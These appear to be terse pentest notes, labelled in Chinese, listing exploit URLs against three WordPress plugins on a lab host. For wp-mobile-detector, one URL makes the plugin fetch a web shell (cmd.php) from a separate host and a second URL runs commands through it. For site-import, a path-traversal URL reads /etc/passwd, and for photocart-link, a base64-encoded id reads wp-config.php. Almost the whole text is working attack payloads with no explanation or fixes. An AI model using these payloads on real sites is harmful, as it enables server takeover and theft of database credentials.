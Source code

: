 wp-mobile-detector  远程文件下载


http://192.168.49.144:8022/wp-content/plugins/wp-mobile-detector/resize.php?src=http://192.168.49.1:8080/cmd.php
http://192.168.49.144:8022/wp-content/plugins/wp-mobile-detector/cache/cmd.php?cmd=


site-import   任意文件读取
   http://192.168.49.144:8022/wp-content/plugins/site-import/admin/page.php?url=../../../../../../../etc/passwd
   
   
photocart-link 任意文件读取
view-source:http://192.168.49.144:8022/wp-content/plugins/photocart-link/decode.php?id=Li4vLi4vLi4vd3AtY29uZmlnLnBocA==
